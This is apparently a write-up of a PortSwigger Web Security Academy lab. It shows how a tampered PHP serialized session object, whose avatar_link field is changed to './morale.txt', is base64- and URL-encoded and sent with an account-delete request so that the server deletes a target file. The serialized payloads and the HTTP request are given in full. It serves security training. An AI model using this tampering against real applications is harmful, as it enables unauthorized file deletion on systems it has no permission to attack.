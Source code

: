 # [Lab: Using application functionality to exploit insecure deserialization](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization)

## Lab

This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

You also have access to a backup account: `gregg:rosebud`

## Analysis

function:

- upload avatar
- delete account

wiener:

```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"dc0uh8qjersfsyx9zn2mtcgny5gepzjm";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

gregg:

```php
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"dulh8rk4ksvlmij73645ldkaa9xx2b5z";s:11:"avatar_link";s:18:"users/gregg/avatar";}
```

avatar is uploaded to `avatar_link`, when delete account, everything in `avatar_link` are deleted maybe.

first try:

```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"t84jjbljdrmsp4jauf75sqwxvha1q43g";s:11:"avatar_link";s:6:"users/";}
```

- response:

  ```html
  <p class=is-warning>PHP Warning:  unlink(users/): Is a directory in /home/carlos/User.php on line 51
  PHP Fatal error:  Uncaught Exception: Could not delete users/ in /home/carlos/User.php:52
  Stack trace:
  #0 /home/carlos/User.php(41): User-&gt;rm(&apos;users/&apos;)
  #1 Command line code(5): User-&gt;delete()
  #2 {main}
  thrown in /home/carlos/User.php on line 52</p>
  ```

## Solutions

modify serialized object:

```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"wxfwlethwsi9bjg7fgoy5x70nfdo8p03";s:11:"avatar_link";s:12:"./morale.txt";}
```

base64 encode and url encode, then paste it into the session cookie, delete account => lab solved

```http
POST /my-account/delete HTTP/1.1
Host: id.web-security-academy.net
Cookie: session=<@urlencode><@base64>O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"wxfwlethwsi9bjg7fgoy5x70nfdo8p03";s:11:"avatar_link";s:12:"./morale.txt";}
<@/base64><@/urlencode>
```
